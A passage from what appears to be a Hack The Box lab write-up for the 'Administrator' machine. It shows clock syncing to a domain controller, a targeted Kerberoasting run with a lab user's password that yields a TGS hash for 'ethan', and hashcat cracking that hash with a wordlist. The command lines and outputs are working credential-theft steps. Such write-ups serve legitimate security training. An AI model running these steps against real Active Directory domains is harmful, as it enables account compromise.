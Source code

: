 ### Why This Is Necessary:  
- **Fixes Clock Skew:** In Active Directory environments, **Kerberos authentication** requires accurate time synchronization (typically within 5 minutes).  
- **Prepares for Kerberos Attacks:** If your machine's time is out of sync with the target **domain controller**, Kerberos-based attacks (e.g., **Pass-the-Ticket, AS-REP Roasting**) might fail.  


```bash
┌──(kali㉿kali)-[~/Downloads]
└─$ sudo ntpdate -u 10.10.11.42

[sudo] password for kali: 
2025-02-09 19:16:43.921905 (-0500) +3071.615925 +/- 0.213648 10.10.11.42 s1 no-leap
CLOCK: time stepped by 3071.615925
```

Now, the command has run successfully, and we have a **Kerberoasting hash** for the `Ethan` user.


```bash
┌──(kali㉿kali)-[~/Downloads]
└─$ python3 targetedKerberoast.py -v -d administrator.htb -u emily -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb'

[*] Starting kerberoast attacks
[*] Fetching usernames from Active Directory with LDAP
[VERBOSE] SPN added successfully for (ethan)
[+] Printing hash for (ethan)
$krb5tgs$23$*ethan$ADMINISTRATOR.HTB$administrator.htb/ethan*$42b3ad3d3990612b7247d8c2fa59d05f$98b3927fcbebaee2c91a65e593f4d7e6b9ec28dc41b60c13269454723d02d0299fef8de5af2cb72458f00dff805337c2239f4a1075a8762d34498e693a456b3ca09ebe0e130d7ff2de22c0589b99d96d436b7f72fd9bde5659d0cb41168f0b5637b418591b278eb4f1d8b8a63aae8bea6300c463645583bd50a077966d7cc354c9a2b01adb
.
.
.
.
.
*************
[VERBOSE] SPN removed successfully for (ethan)                          
```

Now, run `hashcat` to crack the hash, and we obtain the password for the `Ethan` user.


```bash
┌──(kali㉿kali)-[~/Downloads]
└─$ hashcat -m 13100 -a 0 krb5tgs.txt /usr/share/wordlists/rockyou.txt --force 

hashcat (v6.2.6) starting

Rules: 1

Optimizers applied:
* Zero-Byte
* Not-Iterated
* Single-Hash
* Single-Salt

* Keyspace..: 14344385

$krb5tgs$23$*ethan$ADMINISTRATOR.HTB$administrator.htb/ethan*$42b3ad3d3990612b7247d8c2fa59d05f$98b3927fcbebaee2c91a65e593f4d7e6b9ec28dc41b60c13269454723d02d0299fef8de5af2cb72458f00dff805337c2239f4a1075a8762d34498e693a456b3ca09ebe0e130d7ff2de22c0589b99d9.
.
.
.

```